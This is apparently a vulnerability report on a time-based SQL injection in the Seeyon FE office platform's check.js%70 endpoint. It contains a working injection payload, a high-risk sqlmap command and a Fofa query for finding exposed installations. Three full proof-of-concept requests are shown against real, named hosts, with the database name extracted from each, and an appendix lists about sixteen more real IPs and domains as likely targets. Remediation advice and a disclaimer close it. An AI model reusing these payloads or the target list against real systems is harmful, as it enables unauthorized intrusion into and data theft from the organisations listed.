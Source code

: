 # Vulnerability Title
SQL Injection Vulnerability in Seeyon FE Collaborative Office Platform `/sysform/042/check.js%70` Endpoint

---

# Vulnerability Description
A SQL injection vulnerability exists in the FE Collaborative Office Platform developed by Beijing Seeyon Internet Software Corp. An attacker can exploit this vulnerability by crafting malicious requests to access sensitive information from the database. The affected system is the Seeyon FE platform (note: this is not a product of FeiQi Internet).

---

# Affected Scope
+ **Affected Product**: Seeyon FE Collaborative Office Platform (not a product of FeiQi Internet).
+ **Fingerprinting**: Potentially affected assets can be identified using cyberspace mapping tools like Fofa with the search term `app="致远互联-FE"`.  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878891877-09f365a1-4cf8-41ba-b25f-a3aaf1a17826.png)
+ **Product Verification**: Refer to the following article for more details:  
[https://mp.weixin.qq.com/s/mLD1S9D9vZJIbjbHvx2-yg](https://mp.weixin.qq.com/s/mLD1S9D9vZJIbjbHvx2-yg)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878896649-6be07ddd-b102-4893-b233-a7538daa2fc4.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878900342-73e4b223-fc61-496b-b7a7-d1aaac10318e.png)

---

# Vulnerability Verification & Reproduction
### Vulnerable Endpoint
```http
POST /sysform/042/check.js%70 HTTP/1.1
```

The injection point is in the **name** parameter. Example:

```http
opt=1&id=&name=11';WAITFOR+DELAY+'0:0:2'--+-
```

### Tools for Testing
Automated tools like `sqlmap` can be used for detection.  
Example:

```bash
sqlmap -u "http://TARGET_IP:9090/sysform/042/check.js%70" --data="opt=1&id=&name=11';WAITFOR+DELAY+'0:0:2'--+-" --risk=3 --level=5
```

---

### Case 1
+ **Target IP**: `http://125.91.119.208:9090`
+ **POC Reproduction**:
    - Request:

```http
POST /sysform/042/check.js%70 HTTP/1.1
Host: 125.91.119.208:9090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

opt=1&id=&name=11';WAITFOR+DELAY+'0:0:2'--+-
```

+ **Result**: The response is delayed by about 2 seconds, confirming the vulnerability.
+ **Screenshot**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878933970-c514e2c1-2955-42ae-a080-89cc608dcdb9.png)
+ **SQLmap Output**: Current database identified as `FE_BASE5`.  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878930257-208de493-e8d0-4463-9604-321ea1f58a22.png)
+ **Asset Proof**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742879849504-cbbe56a3-9f07-42d6-a54f-ab0289733bca.png)

---

### Case 2
+ **Target IP**: `http://218.22.206.38:9090`
+ **POC Reproduction**:
    - Request:

```http
POST /sysform/042/check.js%70 HTTP/1.1
Host: 218.22.206.38:9090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

opt=1&id=&name=11';WAITFOR+DELAY+'0:0:2'--+-
```

+ **Result**: 2-second delay observed, confirming the vulnerability.
+ **Screenshot**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878944129-c901f6a7-294d-4428-b709-686a01cc746b.png)
+ **SQLmap Output**: Database name extracted as `FE_BASE5`.  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878953723-5c2576fc-e6d4-465b-8246-c82132d0f6e1.png)
+ **Asset Proof**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742879921756-7287c21f-6bcc-4a16-bd34-1781c8a1a3ad.png)

---

### Case 3
+ **Target IP**: `http://oa.avit.com.cn:9090`
+ **POC Reproduction**:
    - Request:

```http
POST /sysform/042/check.js%70 HTTP/1.1
Host: oa.avit.com.cn:9090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

opt=1&id=&name=11';WAITFOR+DELAY+'0:0:2'--+-
```

+ **Result**: 2-second delay confirms the vulnerability.
+ **Screenshot**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878952743-5776b75d-b107-40c7-9009-03c33edd6e64.png)
+ **SQLmap Output**: Extracted database name is `FE_BASE5`.  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742878956021-1e55f1a7-cb3e-4952-a63b-368cffb3c2d2.png)
+ **Asset Proof**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1742879893368-903abe8b-3c8e-425f-9612-237e4ab27529.png)

---

# Proof of Vulnerability
## Vendor Information
+ **Vendor Name (CN)**: 北京致远互联软件股份有限公司
+ **Vendor Name (EN)**: BeiJing Seeyon Internet Software Corp.
+ **Official Website**: [www.seeyon.com](http://www.seeyon.com/)
+ **Email**: [zhangxiu@seeyon.com](mailto:zhangxiu@seeyon.com)
+ **Registered Capital**: ¥115,158,439
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740239506867-badbe13f-c4b2-4f83-b691-67d27de49de9.png)

## Technical Details
The vulnerability lies in the **name** parameter of the endpoint, which lacks proper input filtering. Attackers can inject malicious SQL payloads (e.g., `11';WAITFOR+DELAY+'0:0:2'--+-`) to perform blind time-based SQL injection and extract sensitive database information.

---

# Remediation Suggestions
1. **Input Validation**: Strictly validate and sanitize inputs like the **name** parameter.
2. **Prepared Statements**: Use parameterized queries instead of dynamically building SQL queries.
3. **Least Privilege Principle**: Restrict database user privileges; avoid using high-privilege accounts.
4. **Patch & Update**: Contact Seeyon for official security patches or mitigation recommendations.

---

# Disclaimer
This report is intended solely for research and remediation purposes. Any illegal use of this information is strictly prohibited. Unauthorized exploitation may result in legal consequences.

---

# Appendix
Other potentially affected IPs:

+ [http://121.33.38.234:9090](http://121.33.38.234:9090/)
+ [http://218.22.206.38:9090](http://218.22.206.38:9090/)
+ [http://52.130.254.228:9090](http://52.130.254.228:9090/)
+ [http://218.17.117.55:9090](http://218.17.117.55:9090/)
+ [http://183.247.156.247:9090](http://183.247.156.247:9090/)
+ [http://121.31.124.114:9090](http://121.31.124.114:9090/)
+ [http://58.247.134.2:9090](http://58.247.134.2:9090/)
+ [http://219.146.165.142:9090](http://219.146.165.142:9090/)
+ [http://183.63.225.100:9090](http://183.63.225.100:9090/)
+ [http://120.82.178.130:9090](http://120.82.178.130:9090/)
+ [http://oa1.longlive.cn:9090](http://oa1.longlive.cn:9090/)
+ [http://125.91.119.208:9090](http://125.91.119.208:9090/)
+ [http://oa.avit.com.cn:9090](http://oa.avit.com.cn:9090/)
+ [http://14.145.142.223:9090](http://14.145.142.223:9090/)
+ [http://183.59.159.122:9090](http://183.59.159.122:9090/)
+ [https://221.7.151.135](https://221.7.151.135/)

---

